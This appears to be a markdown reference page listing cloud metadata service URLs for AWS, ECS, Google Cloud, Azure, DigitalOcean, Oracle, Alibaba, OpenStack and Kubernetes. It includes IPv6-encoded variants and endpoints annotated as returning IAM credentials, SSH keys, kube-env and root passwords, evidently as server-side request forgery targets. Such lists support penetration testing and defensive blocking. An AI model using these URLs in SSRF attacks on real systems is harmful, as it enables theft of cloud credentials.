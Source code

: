 ```yaml
---
layout: memory
title: List of various Cloud Metadata Service Addresses
---
```


### IPv6 Tests

    http://[::ffff:169.254.169.254]
    http://[0:0:0:0:0:ffff:169.254.169.254]

### AWS

> Amazon Web Services (No Header Required) [Source](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories)

    http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
    http://169.254.169.254/latest/user-data
    http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
    http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
    http://169.254.169.254/latest/meta-data/ami-id
    http://169.254.169.254/latest/meta-data/reservation-id
    http://169.254.169.254/latest/meta-data/hostname
    http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
    http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key

### ECS Task

> <https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-metadata-endpoint-v2.html>

    http://169.254.170.2/v2/credentials/

### Google Cloud (Header Sometimes Required)

> Source:  <https://cloud.google.com/compute/docs/metadata>
>
> - Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True" on API v1
> - Most endpoints can be accessed via the v1beta API without a header

    ```  
    http://169.254.169.254/computeMetadata/v1/
    http://metadata.google.internal/computeMetadata/v1/
    http://metadata/computeMetadata/v1/
    http://metadata.google.internal/computeMetadata/v1/instance/hostname
    http://metadata.google.internal/computeMetadata/v1/instance/id
    http://metadata.google.internal/computeMetadata/v1/project/project-id
    ```

### kube-env; thanks to JackMc for the heads up on this (<https://hackerone.com/reports/341876>)

    http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env

### Google allows recursive pulls

    http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true

### returns root password for Google

    http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/?recursive=true&alt=json

### Digital Ocean (No Header Required)

> [Source](https://developers.digitalocean.com/documentation/metadata/)

    http://169.254.169.254/metadata/v1.json
    http://169.254.169.254/metadata/v1/ 
    http://169.254.169.254/metadata/v1/id   
    http://169.254.169.254/metadata/v1/user-data
    http://169.254.169.254/metadata/v1/hostname
    http://169.254.169.254/metadata/v1/region   
    http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

### Packetcloud

    https://metadata.packet.net/userdata

### Azure (Header Required)

> Requires Header: "Metadata: true"
Source: <https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service>
(Old: ) <https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/>

    http://169.254.169.254/metadata/instance?api-version=2017-04-02
    http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text

### Oracle Cloud (No Header Required)

> Source: <https://docs.us-phoenix-1.oraclecloud.com/Content/Compute/Tasks/gettingmetadata.htm>

    http://169.254.169.254/opc/v1/instance/

### Alibaba Cloud

> Source: <https://www.alibabacloud.com/help/faq-detail/49122.htm>

    http://100.100.100.200/latest/meta-data/
    http://100.100.100.200/latest/meta-data/instance-id
    http://100.100.100.200/latest/meta-data/image-id

### OpenStack/RackSpace

> Source: <https://docs.openstack.org/nova/latest/user/metadata-service.html>

    http://169.254.169.254/openstack  

### Oracle Cloud

> Source:  <https://docs.oracle.com/en/cloud/iaas/compute-iaas-cloud/stcsg/retrieving-instance-metadata.html>

    http://192.0.0.192/latest/
    http://192.0.0.192/latest/user-data/
    http://192.0.0.192/latest/meta-data/
    http://192.0.0.192/latest/attributes/

### Kubernetes

> Debug Services (<https://kubernetes.io/docs/tasks/debug-application-cluster/debug-service/>)

    https://kubernetes.default.svc.cluster.local
    https://kubernetes.default

Sources:

- <https://twitter.com/Random_Robbie/status/1072242182306832384>
- <https://kubernetes.default.svc/metrics>
